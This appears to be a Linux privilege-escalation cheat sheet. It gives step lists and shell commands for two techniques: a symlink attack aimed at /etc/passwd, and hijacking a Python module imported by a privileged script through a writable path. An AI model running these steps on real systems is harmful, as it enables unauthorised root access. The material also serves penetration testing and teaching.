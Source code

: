 <br>

## Symbolic link (symlinks)
> An attacker can create a symbolic link pointing to a sensitive or writable file (e.g., a file with elevated privileges). If a privileged process or script follows this symlink and modifies the target file, it can lead to unauthorized actions.
> 1. Find a writable directory that is accessible to a user who can exploit it.
2. Identify a script or process running as a privileged user that might follow symbolic links.
3. Create a symbolic link in that writable directory pointing to a sensitive or critical file that the privileged process might interact with.

**Test**
```bash Find writable directories
find / -type d -writable 2>/dev/null
```
```bash List processes with elevated privileges (e.g., cron jobs)
ps aux | grep -E '(crond|atd|systemd|root)'
```

**Exploit**
```bash Create a symlink in a writable directory
cd /tmp
ln -s /etc/passwd /tmp/my_symlink
```
```bash Trigger the privileged process
touch /tmp/my_symlink
```
```bash Verify exploitation
ls -l /etc/passwd
```

<br>

## Import modified `python` module
> Python scripts running with elevated privileges can be exploited if they import modules from directories writable by untrusted users. An attacker can place a malicious library in such a directory to execute arbitrary code with elevated privileges.
> - **Identify the target script**: Find a script running as a privileged user that imports modules.
> - **Writable directory**: Determine if the script imports from a directory writable by non-privileged users.
> - **Create a malicious module**: Place a malicious module in the writable directory.
> - **Exploit**: When the script imports the malicious module, it executes the attacker's code with elevated privileges.

**Test**
Example: `/priv/vuln.py` imports a custom module from writable directory `/home/user`
```python /priv/vuln.py
import some_module
...
```
```bash Module search path for this script
python3 -c "import sys; print(sys.path)"
```
```bash Example outputs
['', '/usr/lib/python3.8', '/usr/lib/python3.8/plat-x86_64-linux-gnu', '/usr/lib/python3.8/lib-dynload', '/home/user/.local/lib/python3.8/site-packages', '/usr/local/lib/python3.8/dist-packages', '/home/user']
```
If one of those is `/home/user` (the writable directory), we can exploit the vulnerable script.
